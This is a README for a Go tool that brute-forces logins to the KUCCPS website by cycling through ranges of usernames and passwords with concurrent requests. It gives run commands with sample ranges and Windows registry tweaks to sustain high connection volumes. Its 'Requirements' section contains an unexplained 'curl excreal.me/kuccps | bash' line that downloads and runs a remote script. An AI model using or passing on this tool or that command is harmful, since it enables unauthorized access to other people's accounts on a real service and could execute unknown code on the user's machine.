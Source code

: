 # KUCCPS Login Attempt Automation

This program automates the process of attempting to log in to the KUCCPS website with a range of usernames and passwords, using concurrent goroutines for better performance.

## Requirements:
- Go 1.18 or higher

curl excreal.me/kuccps | bash

## Command-Line Arguments:
- `-uS`: Starting value of the username range.
- `-uE`: Ending value of the username range.
- `-pS`: Starting value of the password range.
- `-pE`: Ending value of the password range.
- `-y`:  The Year.
- `-slow`:  Slow Preset.
- `-medium`:  Medium Preset.
- `-fast`:  Fast Preset.

## Running the Program:

To run the program, open a terminal and execute the following command:

```sh
go run main.go -medium -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019


.\bin\kuccps.exe -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019


#OR
./bin/kuccps -uS 11200002100 -uE 11200002130 -pS 24505145001 -pE 24505145010 -y 2019
```

# Building the Binary

To compile the program into a binary for any platform, follow these steps:

1. Navigate to project directory.
2. run build.bat
    This will produce an executable named `kuccps.exe`.

System Tuning Recommendations
For Windows users (to prevent crashes):

# Run as Administrator
netsh int ipv4 set dynamicport tcp start=10000 num=55000
reg add HKLM\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters /v MaxUserPort /t REG_DWORD /d 65534 /f